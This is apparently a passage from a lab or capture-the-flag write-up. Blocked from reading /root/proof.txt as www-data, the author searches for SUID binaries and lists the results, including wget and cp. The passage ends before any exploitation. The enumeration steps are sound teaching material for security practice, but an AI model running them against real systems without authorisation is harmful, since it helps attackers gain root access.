 ```
```

### Proof.txt
- The proof.txt is in the root directory but trying to access it shows we have insufficient permissions,
- Only viable solution is to privilege escalate,
### Priviledge escalation
# 1. Using Suid bits
- Find the suid bits first:
```
www-data@ubuntu:/$ cd /root
cd /root
bash: cd: /root: Permission denied
www-data@ubuntu:/$ find / -perm -u=s -type f 2>/dev/null
find find / -perm -u=s -type f 2>/dev/null
/usr/sbin/pppd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/arping
/usr/bin/wget
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/vmware-user-suid-wrapper
/usr/lib/xorg/Xorg.wrap
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/bin/fusermount
/bin/umount
/bin/mount
/bin/ping
/bin/cp
/bin/su
/snap/core18/1754/bin/mount
/snap/core18/1754/bin/ping
/snap/core18/1754/bin/su
/snap/core18/1754/bin/umount
/snap/core18/1754/usr/bin/chfn
/snap/core18/1754/usr/bin/chsh
/snap/core18/1754/usr/bin/gpasswd
/snap/core18/1754/usr/bin/newgrp
/snap/core18/1754/usr/bin/passwd
/snap/core18/1754/usr/bin/sudo
/snap/core18/1754/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/1754/usr/lib/openssh/ssh-keysign
/snap/core18/1880/bin/mount
/snap/core18/1880/bin/ping
/snap/core18/1880/bin/su
/snap/core18/1880/bin/umount
/snap/core18/1880/usr/bin/chfn
/snap/core18/1880/usr/bin/chsh
/snap/core18/1880/usr/bin/gpasswd
/snap/core18/1880/usr/bin/newgrp
/snap/core18/1880/usr/bin/passwd
/snap/core18/1880/usr/bin/sudo
```